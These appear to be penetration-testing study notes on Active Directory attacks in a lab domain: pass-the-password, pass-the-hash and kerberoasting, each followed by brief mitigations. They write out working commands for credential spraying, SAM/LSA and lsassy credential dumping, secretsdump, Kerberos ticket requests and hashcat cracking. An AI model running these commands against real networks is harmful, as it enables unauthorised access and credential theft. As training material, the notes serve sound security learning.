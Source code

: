 
Flow performed till now with the AD attack and Post compromise Attack:
- Using LLMNR we found a user hash -> user hash -> cracked it using hash cat -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts.

#### Pass Attacks:

##### Pass the Password:
- In this attack, we are going to use the password we are aware of an exploited account and use it in the crackmapexec to see, where else this username/password can be used and if the user is a local admin in that machine or not
- Syntax:
	- `crackmapexec smb {ip-address/CIDR} -u {user} -d {domain} -p {password}`
##### Pass the Hash:
- In this attack type, we are going to use hashes instead of password, if we are unaware of the user's password. Hashes can be grabbed with below steps:
	- We can run Metasploit with Hasdump module, to get some local hashes of other accounts
	- Along with that, we can also use secretsdump.py to get some local hashes 
	- `secretsdump.py MARVEL.local/fcastle:Password!@10.0.0.25`
	- We can also use secretsdump with an hash instead of an password:
		- `secretsdump.py administrator:@10.0.0.25 -hashes {NTLM hash}`
- Once, we have the SAM hashes for the accounts, we can use the crackmapexec application to check the same, if that user has access  in any other systems
	- `crackmapexec smb {ip-address/CIDR} -u {username} -H {SAM hash} --local-auth`
- Also, if we want crackmapexec to dump all the SAM hashes, where ever the successful login is done, this dump the SAM hashes of the machines, which we were able to login
	- `crackmapexec smb {ip-address/CIDR} -u {username} -H {hash} --local-auth --sam`
- We can also enumerate shares using the below:
	- `crackmapexec smb {ip-address/CIDR} -u {username} -H {hash} --local-auth --shares`
- We also have built in modules in crackmapexec, using below will provide the same:
	- `crackmapexec smb -L`
	- `crackmapexec smb {ip-address/CIDR} -u {username}-H {hash} --local-auth -M lsassy`
		- lsassy is a built in module of crackmapexec, which can be used to dump credentials of other users, if they are logged in to the machine
- We can also use lsa to dump the passwords of users that are logged in and the stored passwords, which can be cracked.
	- `crackmapexec smb {ip-address/CIDR} -u {username} -H {hash} --local-auth --lsa`
- Last, but not the least, we can see all the passwords and other details, we obtained using the crackmapexec in the cmedb, this can be accessed using 
	- `cmedb`
	- if we need help - `cmedb` and then type `help`
	- `hosts` to see all the hosts we cracked and `creds` to show all the passwords that has been successfully cracked.

#### Pass Attack Mitigations:

- Hard to completely prevent, but we can make it more difficult on an attacker:
	- Limit account re-use:
		- Avoid re-using local admin password.
		- Disable Guest and Administrator accounts
		- Limit who is a local administrator (least privilege)
	- Utilize strong passwords:
		- The longer the better (> 14 character)
		- Avoid using common words
	- Privilege Access Management (PAM):
		- Check out/in sensitive accounts when needed
		- Automatically rotate passwords on check out and check in
		- Limits pass attacks as hash/password i strong and constantly rotated

#### Kerberoasting:

- Kerberoasting is an attack technique that targets Kerberos authentication in Windows environments. Attackers request service tickets for service accounts, capture these tickets, and then attempt to crack them offline to retrieve the account passwords. This is effective against service accounts, which often have weak passwords and elevated privileges, potentially allowing attackers access to sensitive resources.

- Flow:
	- User requests TGT (Ticket Granting Ticket), provide NTLM Hash -> Domain Controller -> Domain controller responds back with the TGT with krbtgt hash -> User -> User requests TGS (Ticket Granting Service) for Server and provides the TGT -> Domain Controller -> DC then shares the TGS with server's account hash (which can be used to crack service accounts creds) -> Present this TGS to server with server's account -> Application Server

- Goal of the kerberoasting is to get the TGS and decrypt server's account hash
- Tools used for kerberoasting is `Get SPNs`, `Dump Hash`
	- Syntax: `sudo GetUserSPNs.py {domain}/{username:'password'} -dc-ip {dc_ip_address} -request`
	- Example: `sudo GetUserSPNs.py MARVEL.local/fcastle:'Password1' -dc-ip 10.0.0.1 -request`
- Once we have the TGS with the hash, we can crack the hash using hash cat.
	- `Hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

#### Kerberoasting mitigation:

- Service accounts should not be running as domain admins and make sure we have strong passwords 
- Service accounts should always hold least privilege in the machine



